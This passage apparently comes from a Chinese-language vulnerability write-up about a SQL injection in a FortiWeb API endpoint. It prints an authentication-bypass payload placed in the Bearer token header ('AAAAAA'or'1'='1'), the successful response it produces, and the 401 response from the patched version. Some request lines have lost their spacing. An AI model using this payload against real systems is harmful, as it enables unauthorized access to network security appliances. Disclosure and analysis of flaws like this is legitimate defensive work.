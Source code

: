   
漂亮的200 OKHTTP 响应 - 确认我们的 SQL 注入成功并且令牌检查被绕过：  
  

```
HTTP/1.1 200 OK
Date: Thu, 10 Jul 2025 17:20:09 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Content-Security-Policy: Script-Src 'self', frame-ancestors 'self'; Object-Src 'self'; base-uri 'self';
X-Content-Type-Options: nosniff
Content-Length: 248
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: application/json

{ &#34;serial&#34;: &#34;FVVM00UNLICENSED&#34;, &#34;device_type&#34;: &#34;fortiweb&#34;, &#34;model&#34;: &#34;FortiWeb-VM&#34;, &#34;version&#34;: { &#34;major&#34;: 7, &#34;minor&#34;: 6, &#34;patch&#34;: 3 }, &#34;build&#34;: { &#34;number&#34;: 1043, &#34;release_life_cycle&#34;: &#34;GA&#34; }, &#34;hostname&#34;: &#34;FortiWeb&#34;, &#34;supported_api_versions&#34;: [ 1 ] }
```

  
  
为了提供帮助，这里是修补版本的请求/响应对：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrcA3OnII1IaFX2c9wuehm6AKA8e5ruicic7D7v2LHl4LGOXPd98iayeClQ/640?wx_fmt=png&from=appmsg "")  
  
HTTP 请求：  
  

```
GET/api/fabric/device/status HTTP/1.1
Host: 192.168.8.30
Authorization: Bearer AAAAAA'or'1'='1
```

  
  
HTTP 响应：  
  

```
HTTP/1.1401 Unauthorized
Date: Thu, 10 Jul 202517:20:50 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Content-Security-Policy: script-src 'self'; default-src 'self'; style-src 'self''unsafe-inline'; font-src 'self'; img-src 'self' data:; connect-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'self'; upgrade-insecure-requests; block-all-mixed-content;
X-Content-Type-Options: nosniff
Content-Length: 0
```

  